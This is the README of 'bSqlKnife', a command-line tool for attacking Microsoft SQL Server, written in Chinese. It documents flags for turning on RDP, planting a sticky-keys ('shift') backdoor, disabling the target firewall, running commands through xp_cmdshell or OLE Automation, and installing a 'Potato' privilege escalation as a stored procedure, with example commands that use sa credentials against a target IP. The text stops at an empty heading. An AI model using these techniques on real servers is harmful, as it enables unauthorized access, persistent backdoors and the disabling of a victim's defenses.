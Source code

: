 # bSqlKnife

适合在命令行中使用的轻巧的SQL Server数据库攻击工具。


## 参数说明

```
 <-H host> <-P port> <-u username> <-p password> <-D dbname> <--openrdp> <--shift> <--disfw> <--xpcmd> <--oacreate> <--dbup> <--fix> <--remove> <--3/--4>
```

-H 目标ip，默认127.0.0.1

-P 端口，默认1433

-u 用户名，默认sa

-p 密码，默认为空字符串

-D 数据库名，默认master

-c 要执行的命令

--openrdp 开启目标远程桌面

--shift 创建shfit后门

--disfw 关闭目标防火墙

--xpcmd 与-c参数结合使用，利用xp_cmdshell执行命令

--oacreate 与-c参数结合使用，利用Ole Automation Procedures执行命令（无回显）

--fix 与xpcmd或者oacreate结合使用，启用存储过程

--3/--4 使用什么版本的clr payload 默认为4.0

--remove 把程序集清理掉并且禁用相关功能

## 示例

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate -c calc.exe

### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

基于注册表操作





### PotatoInSQL(--dbup)
将土豆提权作为存储过程安装到数据库，然后调用。



### 启用/还原配置功能
做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload